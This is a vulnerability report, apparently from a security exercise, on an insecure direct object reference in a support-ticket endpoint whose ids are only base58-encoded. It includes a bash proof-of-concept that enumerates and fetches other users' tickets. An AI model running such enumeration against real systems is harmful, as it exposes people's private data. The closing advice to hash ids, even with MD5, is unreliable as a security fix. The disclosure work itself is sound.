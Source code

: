 # Insecure direct object reference vulnerability in 'support.quoccabank.com' leads to unauthorized access and information leakage.

## Severity: medium

## Report Summary:

The 'support.quoccabank.com/raw/' endpoint allows for the user to submit support tickets, but utilizes base58 encoding to obfuscate the generated unique id in the format `user_id:page_number`. Therefore by brute force enumeration, one is able to view the files of all users on the database.

## Proof of concepts

this is the bash script that enumerates all the possible ids and page numbers and prints the response code for the user to grep

```shell
#!/bin/sh
#$1 = id
#$2 = max_number
split_input() {
        local body=$(echo $response| sed 's/{.*}//')
        local json=$(echo $response| sed 's/.*{/{/')
        local response_code=$(echo $json| jq '.response_code')
        echo "number = $i,code = $response_code, file= $file"
        #echo $body
        #echo $json
        if [ $response_code -eq "200" ]
        then
                echo $body | grep '6443'
        fi
}
for i in $(seq 0 10000)
do
        file=$(echo -n "$i:1"| base58)
        #file=$(echo -n "$1:$i"| base58)
        response=$(curl -s --proxy http://127.0.0.1:8080 -k -i "https://support.quoccabank.com/raw/$file" --write-out '%{json}')
        split_input $response $i $file
        sleep 0.1
done
```

for this endpoint `https://support.quoccabank.com/raw/RVnSH2uR` aka `raw/1125:4` encoded in base58

![image-20210709200443014](./images/support1.png)

similarly `https://support.quoccabank.com/raw/VVBWU75i` aka `raw/9447:1` 

![image-20210709200651795](./images/support2.png)

## Steps to reproduce 

You can either run the brute forcing script to find out other users ids, pages or you can just pipe the above input into [Cyberchef](https://gchq.github.io/CyberChef/) as shown in the figure below, then paste it into 'https://support.quoccabank.com/raw/{base58(input)}' and there will be information leakage.

![image-20210709200812817](./images/support3.png)

 ## Recommendations 

Security by obscurity is not the proper method to securing a web application, encoding is not the same as encrypting and obfuscation on the id codes are easily defeated by brute force methods or just people who are capable and willing to spend a lot of time to defeat any mechanisms. Other methods for generating unique tokens such as a hash algorithm, preferably not MD5, but even MD5 is better than base58.

